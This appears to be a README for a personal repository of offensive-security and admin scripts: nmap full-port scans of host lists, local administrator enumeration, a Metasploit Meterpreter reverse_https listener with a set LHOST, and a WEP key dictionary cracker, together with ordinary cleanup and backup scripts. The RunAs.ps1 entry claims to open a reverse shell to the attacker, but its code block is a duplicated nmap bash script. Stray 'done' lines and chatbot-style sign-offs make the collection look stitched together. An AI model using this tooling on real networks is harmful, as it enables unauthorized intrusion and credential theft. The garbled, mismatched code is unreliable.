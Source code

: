 # Scripts

* LocalAdmins.ps1 - Checks a file of host servers for members of the Administrators, Remote Desktop Users, and Users local groups.
* NSLookUp.ps1 - Runs a NSLookUp query against a file of host servers.
* PrivateIP - Runs a Nmap scan on against a file of host servers with Private IP's to check both TCP and UDP ports.
* PublicIP - Runs a Nmap scan on against a file of host servers with Public IP's to check both TCP and UDP ports.
* RunAs.ps1 - Runs a 'RunAs' command to switch context of user whilst triggering and initiating a reverse shell to the attacker.
* Meterpreter.rc - Sets a Meterpreter listener/handler with options (msfconsole -q -r Meterpreter.rc).
* WEPCracker.py - Wrapper script to crack WEP using Airdecap-ng.
* SystemCleanUp.ps1 - This script cleans up temporary files older than 7 days, log files older than 30 days, and clears the Recycle Bin.
* BackupAutomation.py - This script automates the process of backing up files and directories to a specified location.


### LocalAdmins.ps1

```
$servers = Get-Content C:\servers.txt
$groups = 'Administrators', 'Remote Desktop Users', 'Users'
$results = foreach ($server in $servers) {
    foreach ($group in $groups) {
        $obj = [ADSI]"WinNT://$server/$group"
        $obj.Invoke('Members') | % {
            $path = ([adsi]$_).path
            [pscustomobject]@{
                Computer = $server
                Group = $group
                Domain = $(Split-Path (Split-Path $path) -Leaf)
                User = $(Split-Path $path -Leaf)
            }
        }
    }
}
$results
```

### NSLookUp.ps1

```
$servers = get-content "C:\temp\hostlist.txt"
foreach ($Server in $Servers)
{
    $Addresses = $null
    try {
        $Addresses = [System.Net.Dns]::GetHostAddresses("$Server").IPAddressToString
    }
    catch { 
        $Addresses = "Server IP cannot resolve."
    }
    foreach($Address in $addresses) {
        write-host $Server, $Address 
    }
}
```

### Private IP

```
#!/bin/bash
nmap -sC -sV -Pn -v -p- -iL ./Private -oG PrivateTCP.txt
nmap -sU -v -iL ./Private -oG PrivateUDP.txt
done
```

### Public IP

```
#!/bin/bash
nmap -sC -sV -Pn -v -p- -iL ./Public -oG PublicTCP.txt
nmap -sU -v -iL ./Public -oG PublicUDP.txt
done
```

### RunAs.ps1

```
#!/bin/bash
nmap -sC -sV -Pn -v -p- -iL ./Public -oG PublicTCP.txt
nmap -sU -v -iL ./Public -oG PublicUDP.txt
done
```

### Meterpreter.rc

```
use exploit/multi/handler 
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST 192.168.49.91 
set LPORT 443
set ExitOnSession false 
exploit -j -z 
```

### WEPCracker.py

```
#!/usr/bin/python

import sys, binascii, re
from subprocess import Popen, PIPE

f = open(sys.argv[1], 'r')
for line in f:
    wepKey = re.sub(r'\W+', '', line)
    
    if len(wepKey) != 5 :
        continue
    hexKey = binascii.hexlify(wepKey)
    print "Trying with WEP key: " +wepKey + " Hex: " + hexKey
    p = Popen(['/usr/bin/airdecap-ng', '-w', hexKey, 'WEP-Advanced.cap'], stdout=PIPE)
    output = p.stdout.read()
    finalResult = output.split('\n')[4]
    
    if finalResult.find('1') != -1 :
        print "Success WEP Key Found: " + wepKey
        sys.exit(0)
print "Failure! WEP key could not be found with the existing dictionary!"
```

### SystemCleanup.ps1

```
# System Cleanup Script
# Removes temporary files, log files, and clears recycle bin to optimize system performance

Write-Host "Starting System Cleanup..." -ForegroundColor Green

# Function to delete files from a specified directory older than a certain number of days
function Cleanup-Files {
    param (
        [string]$Path,
        [int]$DaysOld = 7
    )
    if (Test-Path $Path) {
        Get-ChildItem -Path $Path -Recurse -File | Where-Object {
            $_.CreationTime -lt (Get-Date).AddDays(-$DaysOld)
        } | Remove-Item -Force -Verbose
    } else {
        Write-Host "Path $Path does not exist." -ForegroundColor Yellow
    }
}

# Cleaning Windows Temp folder
Write-Host "Cleaning Temp folder..." -ForegroundColor Cyan
Cleanup-Files -Path "$env:Temp" -DaysOld 7

# Cleaning system Temp folder
Write-Host "Cleaning System Temp folder..." -ForegroundColor Cyan
Cleanup-Files -Path "C:\Windows\Temp" -DaysOld 7

# Deleting old log files
Write-Host "Cleaning Log files..." -ForegroundColor Cyan
Cleanup-Files -Path "C:\Windows\Logs" -DaysOld 30
Cleanup-Files -Path "C:\ProgramData\Logs" -DaysOld 30

# Clearing Recycle Bin
Write-Host "Clearing Recycle Bin..." -ForegroundColor Cyan
Clear-RecycleBin -Confirm:$false -Verbose

Write-Host "System Cleanup Completed!" -ForegroundColor Green
```

How to Use:<br/>
1. Save the script as SystemCleanup.ps1.<br/>
2. Open PowerShell as an Administrator.<br/>
3. Run the script using: .\SystemCleanup.ps1.<br/>

This script cleans up temporary files older than 7 days, log files older than 30 days, and clears the Recycle Bin. You can customize the paths and retention periods as needed. Let me know if you need further assistance!

### BackupAutomation.py

```
import os
import shutil
import time
from datetime import datetime

# Configuration
SOURCE_DIR = "/path/to/source"  # Path to the folder you want to back up
BACKUP_DIR = "/path/to/backup"  # Path where the backup will be stored
BACKUP_RETENTION_DAYS = 7       # Number of days to keep old backups

def create_backup(source, destination):
    """Creates a timestamped backup."""
    timestamp = datetime.now().strftime("%Y%m%d_%H%M%S")
    backup_path = os.path.join(destination, f"backup_{timestamp}")
    
    try:
        shutil.copytree(source, backup_path)
        print(f"Backup created successfully at {backup_path}")
    except Exception as e:
        print(f"Error creating backup: {e}")

def cleanup_old_backups(destination, retention_days):
    """Removes backups older than the retention period."""
    now = time.time()
    for folder in os.listdir(destination):
        folder_path = os.path.join(destination, folder)
        if os.path.isdir(folder_path):
            folder_age = now - os.path.getmtime(folder_path)
            if folder_age > retention_days * 86400:  # Convert days to seconds
                try:
                    shutil.rmtree(folder_path)
                    print(f"Deleted old backup: {folder_path}")
                except Exception as e:
                    print(f"Error deleting backup {folder_path}: {e}")

def main():
    # Ensure the backup directory exists
    if not os.path.exists(BACKUP_DIR):
        os.makedirs(BACKUP_DIR)

    # Create a new backup
    create_backup(SOURCE_DIR, BACKUP_DIR)

    # Cleanup old backups
    cleanup_old_backups(BACKUP_DIR, BACKUP_RETENTION_DAYS)

if __name__ == "__main__":
    main()
```

How to Use:<br/>
1. Save the script as BackupAutomation.py.<br/>
2. Replace /path/to/source with the directory you want to back up.<br/>
3. Replace /path/to/backup with the directory where you want the backups to be stored.<br/>
4. Run the script using: python BackupAutomation.py.<br/>

Features:
* Timestamped Backups: Creates backups with a unique timestamp in the name.
* Retention Policy: Automatically deletes backups older than the specified number of days.
* Error Handling: Includes basic error handling for common issues.
